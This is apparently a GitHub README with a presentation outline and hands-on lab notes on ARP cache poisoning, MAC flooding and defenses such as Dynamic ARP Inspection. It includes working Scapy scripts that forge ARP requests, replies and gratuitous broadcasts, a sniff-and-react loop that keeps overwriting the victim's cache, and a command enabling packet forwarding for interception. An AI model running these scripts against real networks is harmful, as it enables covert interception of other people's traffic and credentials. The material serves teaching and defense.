

## Network



## Presentation

#### Phase 1: The Vulnerable Foundation

  • Slide 01 — What is ARP & The Trust Assumption:
      • Role of ARP (IPv4 Layer 3 ↔ MAC Layer 2 resolution).
      • The Fatal Flaw: Stateless & Unauthenticated (Accepts unsolicited ARP replies without verifying who asked).

  ──────
  #### Phase 2: The Two Attack Mechanics (Theory & Comparison)
  • Slide 02 — Attack A: ARP Cache Poisoning (Spoofing):
      • Mechanism: Sending forged/unsolicited Gratuitous ARP replies to Target and Gateway.
      • Result: Overwrites the local ARP cache (Target -> Attacker MAC, Gateway -> Attacker MAC).
  • Slide 03 — Attack B: ARP / MAC Flooding:
      • Mechanism: Flooding the switch with thousands of fake MAC addresses.
      • Result: Exhausts the switch CAM table memory → switch fails-open and acts as a Hub (broadcasting all traffic
      to all ports).

  ──────
  #### Phase 3: Impacts, Weaponization & Brainstorming

  • Slide 05 — The Brainstorming Hook (Audience Interaction):
      • Ask the audience: "We are now sitting silently in the middle of all traffic. What attacks can we execute
      next?"
      • Collect thoughts, then reveal: Credential sniffing (Plaintext HTTP/FTP/Telnet), DNS Spoofing, Session
      Hijacking, SSL Stripping, DoS (dropping packets).
  • Slide 06 — Operational Limitations:
      • Bounded to the Local Broadcast Domain (Layer 2 / same subnet only).
      • Does not traverse Layer 3 routers.
      • Modern HTTPS/HSTS encrypts application payloads (requires secondary bypasses).
  ──────
  #### Phase 4: Unified Live Demo & TryHackMe Lab (Interactive)

  Instructions to use TryHackMe

  ──────
  #### Phase 5: Defenses & Mitigations

  • Slide 08 — How to Stop It:
      • Dynamic ARP Inspection (DAI): Switch validates ARP packets against the DHCP Snooping binding database.
      • Switch Port Security: Limits the number of MAC addresses per port (stops MAC/CAM Flooding).
      • Static ARP Entries: For critical static links (gateways/servers).
      • End-to-End Encryption: TLS/HTTPS, SSH, VPN (mitigates plaintext sniffing even if MITM succeeds).

## ARP Cache Poisoning

1. Check arp table on HOST A.
2. Perform arp_req with non existent ip (like `192.168.1.99`) and with HOST M's MAC address.
3. Again check arp table on HOST A and see new cached IP and MAC pair.
4. Try to ping on new fake IP (`192.168.1.99`), see ping return not alive.
5. Enable packet_fwd. Then try again ping.
6. This time perform arp_req on default gateway and see wireshark packets and arp table on HOST A
7. Apply arp_req in loop

Note: ARP Cached ~5-10 min.

### Port Forwarding

OS receives the packages but because the `dst_IP` is not meant for our device packages dropped. There are various solutions like creating a secondary fake network interface with the incoming IP, or **enabling the packet forwarding**.

As the name suggest, when the setting is enabled, packets that had different destined IP will be redirected by our host to destined device. This let us sniff the packets without disturbing the actual network connection between source and destined device.

Enabling Port Fwd on Windows:

```powershell
Set-NetIPInterface -AddressFamily IPv4 -Forwarding Enabled
```

### Poisoning for Default Gateway

In our previous attempt we generated a paired our MAC address with a non-existing IP address (`192.168.1.99`). This time we can choose a more useful target. This can be the **default gateway** or a specific host.

Let's try to pair HOST M's MAC address with the default gateway's IP address. This way any packet that destined to gateway, will be sent to HOST M, which will sniff the packets, manipulate them if needed and redirect to the actual gateway.

However when we attemp the poisoning, we will see that ARP table on HOST A is not changing. This is weird... If we pay more attention and act fast, we will realize that actually the ARP table is changing according to the poisoned data, but after some second it restore itself. We can open wireshark to see what's happening.


zte_5a:ce:47 is the real gateway's MAC address. Packes indicates that our ARP request is reached to HOST A, however after some seconds the real gateway detects IP conflicts and start sending **gratuitous request** to all devices to restore its MAC address.

Home routers scheduled to perform periodic **Gratuitous ARP announcements** (sent every 30–60 seconds). Home routers do this to maintain the network, refresh DHCP leases, and ensure all clients know the gateway's MAC.
 
### ARP_REQUEST

```python
arp_req = Ether(dst=A_MAC) / ARP(
    op=1,           # request
    psrc=B_IP,      # who is asking
    hwsrc=M_MAC,    # sender mac
    pdst=A_IP,      # target IP (or do broadcast)
    hwdst=A_MAC     # target MAC (optional)
)

sendp(arp_req, iface="Ethernet 2")
```

- Host A receives an ARP Request asking "Who has 192.168.1.15? Tell 192.168.1.1" (but the packet says 192.168.1.1 is at M's MAC).
- Crucial ARP rule: Hosts update their ARP cache with the Sender IP/Sender MAC pair upon receiving any ARP packet (request or reply). So, A instantly updates its cache for B_IP → M_MAC
- Extra side-effect: Because `pdst = A_IP`, Host A realizes the request is meant for itself. So, Host A will send an ARP Reply back to M (to M's MAC) with A's real MAC.
- Does the real B (gateway) see this? NO! Since it's unicast to A, the real 192.168.1.1 never sees this packet. It has no idea an attack is happening.
- Stealth Rating: High (stealthy). No "Duplicate IP" warnings on the real gateway.

### ARP_REPLY

```python
arp_rep = Ether(dst=A_MAC) / ARP(
    op=2,                # reply
    psrc="B_IP",         # sender IP
    hwsrc=M_MAC,         # sender MAC
    pdst=A_IP,           # target IP
    hwdst=A_MAC          # target MAC
)
```

- Host A receives an unsolicited ARP Reply saying "192.168.1.1 is at M_MAC".
- Most modern operating systems accept unsolicited replies and immediately update their cache to B_IP → M_MAC.
- Key difference from Task 1.A: Because this is a Reply and A never asked for it, Host A does NOT send a response back to M. It just silently updates its table.
- Does the real B (gateway) see this? NO! Again, unicast to A. The real gateway remains completely unaware.
- Stealth Rating: High (stealthy). No extra traffic, no duplicate IP warnings.

### ARP gratuitous message

```python
grat_arp = Ether(dst="ff:ff:ff:ff:ff:ff") / ARP(
    op=1,                       # request
    psrc=B_IP,                  # sender IP = B_IP
    hwsrc=M_MAC,                # sender MAC = M's MAC
    pdst=B_IP,                  # target IP = same as sender IP
    hwdst="ff:ff:ff:ff:ff:ff"   # broadcast MAC
)

sendp(grat_arp, iface="eth0")
```

- This packet is broadcast to the entire subnet. Every host processes it.
- Host A receives it. Since psrc = B_IP, A updates its cache to B_IP → M_MAC (or creates the entry).
- CRITICAL side-effect: The real Host B (192.168.1.1) also receives this broadcast.
- When the real gateway sees an ARP Request claiming its own IP with a different MAC address, its network stack immediately triggers Duplicate Address Detection (DAD).
- To defend itself, the real gateway instantly sends out a Gratuitous ARP Reply (or broadcast) stating: "NO! I am 192.168.1.1, and my MAC is [Real_MAC]!"
- This is exactly the "duplicate use detected!" warning you saw in Wireshark!
- Stealth Rating: Very Low (noisy). It alerts the target host, floods the network with conflict traffic, and forces you to spam packets continuously just to stay ahead of the real gateway's defenses.

### Why see "Duplicate IP?"

1. If network is in wireless (Wi-Fi), many access points forward unicast frames to all clients in promiscous mode.

2. The gateway is sending periodic gratuitous ARP broadcasts every 30–60 seconds by itself (a common router feature). You sent your packet, poisoned A, and then 2 seconds later, the gateway's scheduled broadcast arrived. You opened Wireshark, saw that broadcast, and mistakenly thought it was a direct response to your packet.

Normally **ARP_REQ** and **ARP_REPLY** methods shouldn't cause duplicate ip packets, however if you target the **gateway (192.168.1.1)**, it's highly sensitive to IP conflicts and will always scream when IP conflicts.

To bypass gateway's duplicate messages, we can send ARP packets in a while loop with a small delay. This will overwrite the duplicate messages at every tick.

## ARP War

### Sniff and React
*Instead of spamming, wait for the gateway to speak, then instantly overwrite it.*

```python
from scapy.all import *

REAL_GW_MAC = "xx:xx:xx:xx:xx:xx"  # Get the real gateway's MAC

def arp_war(pkt):
    # If the gateway just announced itself with a gratuitous reply/request
    if ARP in pkt and pkt[ARP].psrc == "192.168.1.1" and pkt[ARP].hwsrc == REAL_GW_MAC:
        # Immediately overwrite A's cache
        spoof = Ether(dst=A_MAC) / ARP(op=2, psrc="192.168.1.1", hwsrc=M_MAC, pdst=A_IP, hwdst=A_MAC)
        sendp(spoof, iface="Ethernet 2", verbose=False)
        print("[+] Counter-attacked the gateway's broadcast!")

# Sniff forever, reacting to the gateway's announcements
sniff(filter="arp", prn=arp_war, iface="Ethernet 2", store=0)
```

### Poison the Gateway

Rather than race-condition fight with gateway, we can just poison the gatway's cache with setting HOST_A's MAC with our MAC address. **This doesn't stop gateway's gratuitous messages**, but is some cases this strategy might be useful.

### Exploit the "Response-Only" update rule

On many Linux the `arp_accept` syscyl parameter (`net.ipv4.conf.eth0.arp_accept`) controls whether unsolicited ARP replies are accepted.

If arp_accept = 0 (default), Linux only updates its cache from ARP requests, not replies.

### Loopback Echo Discard

If the gateway screams because it sees your MAC claiming its IP, can you stop the scream?

Yes. Send an ARP packet to the gateway with its own MAC as the sender. For example, send a broadcast gratuitous ARP where hwsrc = REAL_GW_MAC but psrc = 192.168.1.1.

- The gateway receives a packet from its own MAC address. Many network stacks discard this immediately (they think it's a loopback echo) and do not trigger DAD.

- Catch: The Ethernet header must have hwsrc = M_MAC (you can't lie about the hardware source on a wire). You can't spoof the Layer 2 source MAC on most standard network cards (it requires a NIC that supports promiscuous injection). So, this is generally not possible for standard laptops.

### Shutting down the gateway

Shutdown the gateway, perform the poisoning then re-open the gateway.

## Mitigations

**Static Arp Entries**: `arp -s 192.168.1.1 AA:BB:CC...`

**Dynamic ARP Inspection (DAI)**: The switch inspects ARP packets. If the psrc (B_IP) doesn't match the trusted DHCP snooping database, the switch drops your packet before it even reaches Host A.

**Windows "ArpRetryCount"**: Windows validates unsolicited ARP replies by sending a quick ARP request to verify the MAC before committing it to the cache. If the real gateway replies faster than you, your entry gets rejected.

**Port Security / MAC Lockdown**: The switch locks port A to A_MAC. If it sees a frame from M_MAC arriving on port A (because you sent it to A), it might shut down the port or drop the packet.